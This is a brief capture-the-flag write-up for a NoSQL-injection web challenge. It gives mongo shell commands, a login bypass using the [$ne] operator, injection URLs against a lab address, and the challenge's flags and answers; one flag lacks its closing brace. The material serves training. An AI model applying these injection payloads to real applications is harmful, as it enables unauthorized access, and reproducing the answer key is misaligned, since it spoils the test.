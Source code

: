 ## Topic: Web Exploitation
### Challenge Name: Migration Without Security
Get first flag by logging into box and using the command `mongo` to interact with the database. Display flag by showing collections and then printing it.
`use flagdb`
`show collections`
`db.flagColl.find()`

Bypass login page by adding [$ne] to the login request.
### Questions:
1. Interact with the MongoDB server to find the flag. What is the flag?
flag: `THM{8814a5e6662a9763f7df23ee59d944f9`
2. We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?
flag: `THM{b6b304f5d5834a4d089b570840b467a8}`
3. Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?
url: `10.10.59.158/search?username[$ne]=test&role=guest`
flag: `THM{2ec099f2d602cc4968c5267970be1326}`
4. Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?
url:`http://10.10.59.158/search?username=mcskidy&role[$ne]=guest`
answer: `ID:6184f516ef6da50433f100f4:mcskidy:admin`
